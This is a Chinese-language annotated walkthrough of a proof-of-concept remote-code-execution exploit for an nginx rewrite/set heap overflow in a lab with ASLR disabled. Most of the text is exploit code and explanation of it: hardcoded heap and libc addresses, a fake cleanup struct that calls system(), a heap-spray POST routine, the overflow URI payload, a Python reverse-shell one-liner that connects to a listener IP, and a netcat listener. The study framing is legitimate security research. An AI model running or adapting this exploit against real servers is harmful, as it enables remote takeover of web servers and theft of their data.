


# `poc.py` 执行路径注解

这份文档按 `poc.py` 的真实运行路径来读代码：从程序入口 `main()` 开始，一路跟到单次利用尝试 `attempt()`，再看堆喷、溢出触发、连接关闭和结果判断。阅读目标是看清“这段代码实际按什么顺序跑、每一块为什么存在、前后数据怎么传递”。

> 说明：本文是对当前仓库靶场 PoC 的结构化阅读笔记，不改变 PoC 行为，也不提供跨环境适配方法。

## 一眼看完整调用链



## 0. 全局常量：后面所有步骤都依赖这些固定假设

源码位置：`poc.py:8-28`

```python
BODY_LEN = 4000
N_SPRAY = 20

HEAP_BASE = 0x555555659000
LIBC_BASE = 0x7ffff77ba000
SYSTEM_ADDR = LIBC_BASE + 0x50d70

PREREAD_HEAP_OFFSETS = [
    0x05a427, 0x060e67,
    ...
    0x103847, 0x108657, 0x10d467,
]
```

这几行是整个 PoC 的地基：

| 常量 | 在执行路径里的作用 |
| --- | --- |
| `BODY_LEN` | 每个 `/spray` 请求体长度，也是 fake cleanup 和命令字符串所在 body 的大小 |
| `N_SPRAY` | 每轮 `attempt()` 会发多少个堆喷 POST |
| `HEAP_BASE` | 用来计算 fake cleanup 可能落在哪些堆地址 |
| `LIBC_BASE` | 用来计算 `system()` 地址 |
| `SYSTEM_ADDR` | fake cleanup 的 `handler` 字段会写成这个地址 |
| `PREREAD_HEAP_OFFSETS` | 一批候选堆偏移，后面会逐个尝试 |

这里的地址是靶场绑定值。仓库的 `env/entrypoint.sh` 用 `setarch x86_64 -R` 关闭 ASLR，所以地址才可能稳定。

## 1. 入口：程序实际从这里开始跑

源码位置：`poc.py:237-238`

```python
if __name__ == "__main__":
    sys.exit(main())
```

这说明真实入口是 `main()`。所以阅读时不要先陷在 `attempt()` 的细节里，先看 `main()` 怎么准备参数、地址、body，再看它什么时候调用 `attempt()`。

## 2. `main()` 第一步：解析命令行参数

源码位置：`poc.py:140-161`

```python
def main():
    parser = argparse.ArgumentParser(
        description="nginx rift RCE exploit (ASLR disabled)"
    )
    parser.add_argument("--host", default="127.0.0.1")
    parser.add_argument("--port", type=int, default=19321)
    parser.add_argument("--cmd")
    parser.add_argument("--shell", action="store_true")
    parser.add_argument("--listen-port", type=int, default=1337)
    parser.add_argument("--listen-ip", type=str, default="172.17.0.1")
    args = parser.parse_args()

    if not args.cmd and not args.shell:
        parser.error("either --cmd or --shell must be specified")
    if args.cmd and args.shell:
        parser.error("cannot specify both --cmd and --shell")
```

这里做了三件事：

1. 目标默认是 `127.0.0.1:19321`，对应 `env/nginx.conf` 里的 vulnerable server。
2. 用户必须二选一：`--cmd` 或 `--shell`。
3. `--cmd` 和 `--shell` 不能同时出现，因为最后只能构造一个传给 `system()` 的字符串。

这一段还没有碰漏洞，只是在决定“最终让 `system()` 执行什么”。

## 3. `main()` 第二步：生成最终命令 `cmd`

源码位置：`poc.py:163-188`

```python
host = args.host
port = args.port

if args.shell:
    local_ip = args.listen_ip
    cmd = (
        "python3 -c 'import socket,subprocess,os;"
        "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);"
        f"s.connect((\"{local_ip}\",{args.listen_port}));"
        "os.dup2(s.fileno(),0);"
        "os.dup2(s.fileno(),1);"
        "os.dup2(s.fileno(),2);"
        "subprocess.call([\"/bin/sh\",\"-i\"])'"
    )
else:
    cmd = args.cmd
```

这一块把输入参数变成统一的 `cmd`。

| 模式 | `cmd` 从哪里来 | 后续用途 |
| --- | --- | --- |
| `--cmd "..."` | 直接使用用户给定命令 | 写进 spray body，后面作为 `system(cmd)` 的参数 |
| `--shell` | 脚本拼出 Python reverse shell 命令 | 同样写进 spray body，后面作为 `system(cmd)` 的参数 |

如果是 `--shell`，脚本还会起一个后台线程尝试运行 `nc -l -p <port>`：

```python
if args.shell:
    import threading
    def listen_shell():
        import subprocess
        try:
            subprocess.run(["nc", "-l", "-p", str(args.listen_port)], check=True)
        except Exception:
            print(f"[!] Could not start netcat. Please run: nc -l -p {args.listen_port}")

    t = threading.Thread(target=listen_shell)
    t.daemon = True
    t.start()
    time.sleep(1)
```

注意这里注释说“netcat 不可用时用 simple socket listener”，但实际代码没有实现 fallback，只是打印提示。

## 4. `main()` 第三步：从固定堆基址中筛候选地址

源码位置：`poc.py:11-32`、`poc.py:190-194`

先看筛选函数：

```python
SAFE = set()
_t = [0xffffffff, 0xd800086d, 0x50000000, 0xb8000001,
      0xffffffff, 0xffffffff, 0xffffffff, 0xffffffff]
for _b in range(256):
    if not (_t[_b >> 5] & (1 << (_b & 0x1f))):
        SAFE.add(_b)

def addr_is_safe(addr):
    return all(((addr >> (j * 8)) & 0xff) in SAFE for j in range(6))
```

再看 `main()` 里怎么用：

```python
candidates = []
for i, off in enumerate(PREREAD_HEAP_OFFSETS):
    addr = HEAP_BASE + off
    if addr_is_safe(addr):
        candidates.append((i, addr))
```

这段的执行含义是：

1. 用 `HEAP_BASE + offset` 算出一个候选 fake cleanup 地址。
2. 检查这个地址低 6 字节是否都属于 `SAFE`。
3. 只有安全字节地址才放进 `candidates`。

为什么要做 `SAFE` 过滤：后面目标地址会被拼进 URI path 里，NGINX 的 args escape 可能把某些字节改写成 `%XX`。如果目标地址字节被改写，溢出覆盖出来的指针就不是原地址了。

## 5. `main()` 第四步：构造将被堆喷的 body

源码位置：`poc.py:35-42`、`poc.py:196-198`

先看 `main()`：

```python
primary_addr = candidates[0][1]
data_addr = primary_addr + 24
body = make_body(cmd, data_addr)
```

再看 `make_body()`：

```python
def make_body(cmd, data_addr):
    fake_struct = struct.pack('<QQQ', SYSTEM_ADDR, data_addr, 0)
    cmd_bytes = cmd.encode('utf-8') + b'\x00'
    payload = fake_struct + cmd_bytes
    if len(payload) > BODY_LEN:
        print(f"[!] Command too long (body={len(payload)}, max={BODY_LEN})")
        sys.exit(1)
    return payload + b'\x41' * (BODY_LEN - len(payload))
```

这里构造出来的 `body` 长这样：

```text
offset 0x00: fake cleanup handler = SYSTEM_ADDR
offset 0x08: fake cleanup data    = data_addr
offset 0x10: fake cleanup next    = 0
offset 0x18: cmd 字符串，以 NUL 结尾
后续填充:   'A' 填满到 BODY_LEN
```

`data_addr = primary_addr + 24` 的原因是 fake cleanup 结构本身占 24 字节，也就是 3 个 8 字节字段。命令字符串紧跟在结构体后面，所以 `data` 要指向 `primary_addr + 24`。

这一步非常关键：`body` 不是触发溢出的 URI payload，而是先通过 `/spray` 放进 NGINX 请求池内存里的“目标对象”。后面的溢出只是要把某个 cleanup 指针覆盖到这个 fake cleanup 地址。

## 6. `main()` 第五步：确认目标活着

源码位置：`poc.py:45-55`、`poc.py:200-204`

`main()` 里调用：

```python
print(f"[*] Waiting for nginx on {host}:{port}...")
if not wait_alive(host, port):
    print("[!] nginx not responding")
    return 1
print("[+] Connected.")
```

`wait_alive()` 逻辑：

```python
def wait_alive(host, port, timeout=30):
    for _ in range(timeout):
        try:
            s = socket.create_connection((host, port), timeout=2)
            s.sendall(b"GET / HTTP/1.1\r\nHost:l\r\nConnection:close\r\n\r\n")
            s.recv(100)
            s.close()
            return True
        except Exception:
            time.sleep(1)
    return False
```

它只请求 `/`，收到响应就返回 `True`。这不是漏洞触发，只是避免目标没启动时继续往下跑。

## 7. `main()` 第六步：候选地址循环，正式进入尝试

源码位置：`poc.py:206-234`

```python
TRIES_PER_CANDIDATE = 10

for i, addr in candidates:
    target = bytes([(addr >> (j * 8)) & 0xff for j in range(6)])

    for t in range(TRIES_PER_CANDIDATE):
        if not wait_alive(host, port, timeout=10):
            time.sleep(2)
            if not wait_alive(host, port, timeout=10):
                print("    server not recovering, aborting")
                return 1

        crashed = attempt(host, port, target, body)
        if crashed:
            ...
            return 0
        time.sleep(0.3)

    print("[+] All candidates tried — no crash detected.")
return 0
```

执行顺序是：

1. 对每个候选 fake cleanup 地址取低 6 字节，得到 `target`。
2. 每个候选最多调用 `attempt()` 10 次。
3. 每轮调用前先确认 NGINX 可响应。
4. `attempt()` 返回 `True` 就认为命中并退出。
5. `attempt()` 返回 `False` 就等 `0.3s` 后继续下一轮。

这里有一个日志语义问题：`All candidates tried` 在外层候选循环内部，实际只表示“当前 candidate 的 10 次尝试结束”，不是所有候选都结束。

从这里开始，真正的利用动作进入 `attempt()`。

## 8. `attempt()` 第一段：堆喷 fake cleanup

源码位置：`poc.py:58-77`

```python
def attempt(host, port, target_bytes, body):
    sprays = []
    for i in range(N_SPRAY):
        try:
            s = socket.create_connection((host, port), timeout=5)
            req = (
                b"POST /spray HTTP/1.1\r\n"
                b"Host: l\r\n"
                b"Content-Length: " + str(BODY_LEN).encode() + b"\r\n"
                b"X-Delay: 60\r\n"
                b"Connection: close\r\n"
                b"\r\n"
                + body
            )
            s.sendall(req)
            sprays.append(s)
        except Exception:
            break
        time.sleep(0.005)
    time.sleep(0.2)
```

这一段连续发送最多 20 个 POST：

```http
POST /spray HTTP/1.1
Content-Length: 4000
X-Delay: 60
Connection: close

<fake cleanup + cmd>
```

对应配置在 `env/nginx.conf`：

```nginx
location /spray {
    client_body_in_single_buffer on;
    proxy_pass http://backend;
    proxy_read_timeout 60s;
}
```

这段的目的不是触发漏洞，而是布置内存：

| 动作 | 作用 |
| --- | --- |
| `POST /spray` | 让 fake cleanup body 进入 NGINX 请求池内存 |
| `client_body_in_single_buffer on` | 尽量让 body 在单块 buffer 中保存 |
| `X-Delay: 60` | 后端 sleep，延长请求生命周期 |
| `sprays.append(s)` | 保持 socket 不关，让这些请求相关内存继续活着 |

换句话说，`/spray` 是“把伪造对象放到堆里”，不是“制造越界写”。

## 9. `attempt()` 第二段：打开攻击连接和 victim 连接

源码位置：`poc.py:79-90`

```python
try:
    a = socket.create_connection((host, port), timeout=5)
    time.sleep(0.02)
    v = socket.create_connection((host, port), timeout=5)
    time.sleep(0.02)
except Exception:
    for s in sprays:
        try:
            s.close()
        except Exception:
            pass
    return False
```

这里打开两条新连接：

| 变量 | 角色 | 后续发生什么 |
| --- | --- | --- |
| `a` | attacker connection | 发送 `/api/<payload>`，触发溢出 |
| `v` | victim connection | 后面被关闭，促使对应 request pool 销毁并跑 cleanup |

中间的 `sleep(0.02)` 是为了影响 NGINX 分配顺序，让相关 pool 和 buffer 更可能落在 PoC 预期的位置。

如果这一步失败，脚本会关闭之前的 spray socket，然后返回 `False`，表示本轮没有命中。

## 10. `attempt()` 第三段：构造并发送溢出 payload

源码位置：`poc.py:92-99`

```python
payload = "A" * 349 + "+" * 969 + target_bytes.decode("latin-1")
a.sendall((f"GET /api/{payload} HTTP/1.1\r\n"
           f"Host:localhost\r\n").encode("latin-1"))
time.sleep(0.05)
v.sendall(b"GET / HTTP/1.1\r\nHost:localhost\r\n")
time.sleep(0.05)
a.sendall(b"X-Delay:60\r\nConnection:close\r\n\r\n")
time.sleep(0.2)
```

这里有一个不太直观但很重要的点：`a` 的 HTTP 请求头是分两次发的。

第一次只发：

```http
GET /api/<payload> HTTP/1.1
Host:localhost
```

第二次再补：

```http
X-Delay:60
Connection:close

```

这样做的效果是控制请求在 NGINX 内部的读取和处理节奏，夹在中间让 `v` 也发一个普通请求，进一步调整内存生命周期和释放时机。

payload 三段含义：

| 片段 | 作用 |
| --- | --- |
| `"A" * 349` | 普通填充，用来走到目标覆盖位置前 |
| `"+" * 969` | 在 args escape 路径中扩展，制造实际复制长度超出计算长度 |
| `target_bytes` | 候选 fake cleanup 地址低 6 字节，希望覆盖进相邻 pool 的 cleanup 指针 |

`/api` 对应配置：

```nginx
location ~ ^/api/(.*)$ {
    rewrite ^/api/(.*)$ /internal?migrated=true;
    set $original_endpoint $1;
}
```

触发点是 `rewrite` + `set` 组合：

1. `rewrite` replacement 里有 `?`，copy 阶段进入 args escape 语义。
2. `set $original_endpoint $1` 会处理捕获组 `$1`。
3. length pass 和 copy pass 对 `is_args` 的状态不一致。
4. length pass 按原始长度分配，copy pass 却把部分字节 escape 成更长形式。
5. 复制超过已分配 buffer，形成堆溢出。

这一段才是真正触发漏洞的地方。

## 11. `attempt()` 第四段：关闭 victim，触发 cleanup

源码位置：`poc.py:101-102`

```python
v.close()
time.sleep(0.1)
```

`v` 被关闭后，和它相关的 NGINX 请求处理会走向结束，请求池有机会被销毁。PoC 希望前面的溢出已经把这个 pool 的 `cleanup` 指针覆盖成了 `target_bytes` 指向的 fake cleanup。

如果覆盖成功，pool cleanup 过程会沿着被污染的指针找到 spray body 里的 fake cleanup：

```text
victim pool cleanup 指针
        ↓
spray body 中的 fake cleanup
        ↓
handler = SYSTEM_ADDR
data    = cmd 字符串地址
        ↓
system(cmd)
```

这就是从堆喷对象到命令执行的关键连接。

## 12. `attempt()` 第五段：判断本轮是否命中

源码位置：`poc.py:104-137`

```python
crashed = False
try:
    a.sendall(b"X-Ping:1\r\n")
    a.settimeout(0.2)
    data = a.recv(1)
    if not data:
        crashed = True
except socket.timeout:
    try:
        check_sock = socket.create_connection((host, port), timeout=0.2)
        check_sock.sendall(b"GET / HTTP/1.1\r\nHost:localhost\r\nConnection:close\r\n\r\n")
        check_data = check_sock.recv(10)
        check_sock.close()
        if not check_data:
            crashed = True
        else:
            crashed = False
    except Exception:
        crashed = True
except (ConnectionResetError, BrokenPipeError, OSError):
    crashed = True

for s in sprays:
    try:
        s.close()
    except Exception:
        pass
try:
    a.close()
except Exception:
    pass
return crashed
```

这里变量名叫 `crashed`，但实际含义更宽：它表示“观察到了可能命中的异常状态”。

| 观察结果 | 脚本如何解释 |
| --- | --- |
| `recv(1)` 返回空 | 连接断开，认为 worker 可能 crash 或请求异常结束 |
| `a` 超时，但新建 `/` 请求也失败 | worker 可能 crash，或者卡在 `system()` |
| `ConnectionResetError` / `BrokenPipeError` / `OSError` | 连接异常，认为本轮命中 |
| 新建 `/` 请求仍有响应 | worker 还活着，本轮当作失败 |

最后它关闭所有 spray socket 和攻击连接，返回 `crashed` 给 `main()`。

这个判断不是命令输出确认。它只是 PoC 用来判断“worker 行为符合命中预期”的启发式信号。

## 13. 回到 `main()`：命中后的收尾

源码位置：`poc.py:218-230`

```python
crashed = attempt(host, port, target, body)
if crashed:
    if args.shell:
        try:
            while True:
                time.sleep(1)
        except KeyboardInterrupt:
            pass
    else:
        print(f"[+] try {t + 1}/{TRIES_PER_CANDIDATE} "
          f"crashed — system(\"{cmd}\") executed")
    print(f"[+] Done.")
    return 0
```

如果 `attempt()` 返回 `True`：

| 模式 | 收尾行为 |
| --- | --- |
| `--cmd` | 打印 `system("cmd") executed` 并退出 |
| `--shell` | 进入无限 sleep，保持本地监听线程存活 |

注意 `--cmd` 模式下打印的是推断结果，不是通过读取命令输出得到的确认。

## 把整条数据流串起来



## 最小执行骨架

下面这段不是原文件的可运行副本，而是把 `poc.py` 按真实调用顺序压缩后的阅读骨架：

```python
main()
  args = parse_args()
  cmd = args.cmd 或 reverse_shell_command

  candidates = []
  for off in PREREAD_HEAP_OFFSETS:
      addr = HEAP_BASE + off
      if addr_is_safe(addr):
          candidates.append(addr)

  primary_addr = candidates[0]
  data_addr = primary_addr + 24
  body = make_body(cmd, data_addr)

  if not wait_alive(host, port):
      return 1

  for addr in candidates:
      target = low_6_bytes(addr)
      for _ in range(10):
          if not wait_alive(host, port):
              return 1
          if attempt(host, port, target, body):
              return 0
  return 0

attempt(host, port, target, body)
  sprays = []
  repeat N_SPRAY:
      s = connect()
      send POST /spray with body
      keep s open in sprays

  a = connect()
  v = connect()

  payload = "A" * 349 + "+" * 969 + target
  send partial GET /api/payload on a
  send ordinary GET / on v
  finish headers on a with X-Delay

  close v
  observe a and new / request
  close sprays and a
  return crashed_or_hung
```

## 需要带着看的几个假设

- 这个 PoC 依赖 ASLR 关闭，当前仓库通过 `env/entrypoint.sh` 的 `setarch x86_64 -R` 达成。
- `HEAP_BASE`、`LIBC_BASE`、`SYSTEM_ADDR`、`PREREAD_HEAP_OFFSETS` 都是当前靶场布局值。
- `body` 是堆喷内容，`payload` 是触发溢出的 URI 内容，两者不是同一个东西。
- `/spray` 负责把 fake cleanup 放进堆内存，`/api` 才负责触发漏洞。
- `target_bytes` 只包含候选地址低 6 字节，因为它要经过 URI 路径和 escape 逻辑。
- `attempt()` 的返回值是启发式命中判断，不是严格的命令执行证明。
- 如果 `candidates` 为空，当前代码会在 `candidates[0]` 处直接报错，没有友好的错误处理。
